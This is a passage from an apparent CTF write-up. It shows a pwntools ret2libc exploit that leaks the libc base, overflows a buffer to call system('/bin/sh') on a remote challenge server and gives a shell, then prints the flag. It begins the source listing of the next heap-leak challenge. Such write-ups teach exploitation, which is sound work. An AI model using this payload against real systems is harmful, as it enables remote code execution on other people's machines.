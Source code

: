
### Exploit
```python
from pwn import *

#p = process("./vuln", env={"LD_PRELOAD":"./libc.so.6"})
p = remote("7d9d14b.678470.xyz", 31709)
e = ELF("./vuln")
libc = ELF("./libc.so.6")

context.terminal = ['tmux', 'splitw', '-h']

p.recvuntil(b"My cursed technique is revealing libc... ")
libc_leak = int(p.recvline().strip(), 16) - 0x57a90
log.info("libc base: " + hex(libc_leak))
system = libc_leak + libc.sym.system
binsh = libc_leak + next(libc.search(b"/bin/sh"))
#gdb.attach(p)
p.sendline(b"a" * 44 + p32(0x0804900e) + p32(system) + p32(binsh) + p32(binsh))

p.interactive()
```
{{< admonition note "flag" true >}}
`wxmctf{d0main_expansion:ret2libc.}`
{{< /admonition >}}

## leakleakleak
{{< admonition info "Description" false >}}
Leak, leak, leak, leak, I want you in my leak!
{{< /admonition >}}
### Analysis
This challenge give source code, binary and Dockerfile.
```c
// compile with: gcc leakleakleak.c -o leakleakleak -fpie -pie

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

char flag[128] = {0};

typedef struct {
    char username[32];
    char *description;
} User;

void warmup_heap(void) {
    void *addrs[3];
    for (size_t i = 0; i < 3; ++i) {
        addrs[i] = malloc(9000);
    }

    free(addrs[1]);
}

User *create_user(void) {
    User *user = calloc(1, sizeof (User));
    user->description = calloc(1, 256);
    return user;
}

```